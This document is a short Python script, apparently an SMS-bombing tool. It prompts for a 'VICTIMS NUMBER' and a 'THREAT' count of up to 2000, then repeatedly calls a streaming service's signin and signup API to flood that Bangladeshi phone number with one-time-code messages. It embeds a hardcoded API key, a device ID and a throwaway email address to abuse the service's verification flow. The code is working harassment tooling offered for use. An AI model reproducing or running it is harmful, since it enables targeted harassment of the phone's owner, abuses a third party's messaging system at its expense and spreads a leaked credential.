 def send(target):
  header = {
    "x-api-key": "dtGKRIAd7y3mwmuXGk63u3MI3Azl1iYX8w9kaeg3"
  }

  data = {
    "requestType":"send",
    "phoneNumber":"+88"+target,
    "screenName":"signin"
  }

  url = "https://prod-api.viewlift.com/identity/signin?site=hoichoitv&deviceId=browser-44067eab-5337-99d8-11eb-99ca1e4db186"
  res = baba.post(url, json=data, headers=header)
  if res.json().get("code"):
    data = {
      "requestType":"send",
      "phoneNumber":"+88"+target,
      "emailConsent":"true",
      "whatsappConsent":"true",
      "email":"cicas94417@iconmle.com"
    }
    url = "https://prod-api.viewlift.com/identity/signup?site=hoichoitv"

    res = baba.post(url, json=data, headers=header)
    if not res.json().get("sent"): return False
  return True

def main():
  target = input("\n\n\n\n\033[1;93m[*] VICTIMS NUMBER: ")
  amount = int(input("\033[1;96m[*] THREAT (HIGHEST 2000) : "))
  sent, nsent = 0, amount
  for i in range(1, amount + 1):
    try:
      if send(target):
        print(f"[ID: {i}] SMS Sent!")
        sent += 1
        nsent -= 1
      else:
        print(f"[ID: {i}] SMS Not Sent...")
    except KeyboardInterrupt: break
    except Exception as e: print(e); break
  print(f"\n[*] Total Threat : {amount}\n[+] Sent: {sent}\n[-] Not Sent: {nsent}")

if __name__ == "__main__":
  main()
